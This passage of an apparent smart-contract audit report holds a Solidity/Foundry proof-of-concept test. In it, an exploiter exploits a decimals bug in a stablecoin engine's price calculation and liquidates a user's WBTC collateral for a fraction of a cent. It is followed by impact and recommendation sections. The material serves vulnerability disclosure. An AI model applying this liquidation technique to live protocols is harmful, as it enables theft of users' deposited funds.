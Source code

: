 ```solidity
        // An exploiter acquires TSC to perform a liquidation (TSC could have come from the market, but we borrow it).
        vm.startPrank(exploiter);
        ERC20DecimalsMock(weth).approve(address(TSCe), amountWethDeposited);
        TSCe.depositCollateralAndMintTSC(weth, amountWethDeposited, amountTSCFromWeth);
        assertEq(TSC.balanceOf(exploiter), amountTSCFromWeth);
        vm.stopPrank();

        // Over time, the price of WBTC falls just slightly. The user is now vulnerable to liquidation.
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(29_999 * 10**feedDecimals)); // $29,999
        uint256 newValueWbtc = TSCe.getUsdValue(wbtc, amountWbtcDeposited);
        assertTrue(TSCe.getHealthFactor(user) < MIN_HEALTH_FACTOR);

        // The exploiter liquidates the user's WBTC by paying back an "equivalent" amount of TSC.
        // The amount is actually far too low given the flawed price calculation.
        // After this, the exploiter still has plenty of TSC and all of the user's WBTC.
        // The exploiter paid ~$0.0000027 for ~$30,000 worth of WBTC.
        vm.startPrank(exploiter);
        // This comes out to about $0.0000027 (reduced from $0.000003 to account for 10% liquidation bonus)
        uint256 debtToPay = (newValueWbtc * LIQUIDATION_PRECISION) / (LIQUIDATION_PRECISION + LIQUIDATION_BONUS);
        TSC.approve(address(TSCe), debtToPay);
        TSCe.liquidate(wbtc, user, debtToPay);
        vm.stopPrank();
        
        // Exploiter has all of the WBTC and still lots of TSC left!
        uint256 err = 0.0001 ether; // 0.01% allowable relative error to account for rounding
        assertApproxEqRel(ERC20DecimalsMock(wbtc).balanceOf(exploiter), amountWbtcDeposited, err);
        assertApproxEqRel(TSC.balanceOf(exploiter), amountTSCFromWeth, err);

        // User has no WBTC left in the `TSCEngine`.
        assertApproxEqAbs(TSCe.getCollateralBalanceOfUser(user, wbtc), 0, 1); // 1 wei of allowable error for rounding
    }
}
```

## Impact
Direct theft of deposited collateral for tokens with fewer than 18 decimals.

## Tools Used
Manual review.

## Recommendations
Test for varied token decimals! Here is a diff which adds some relevant tests to the existing code base. Note that the new tests fail!
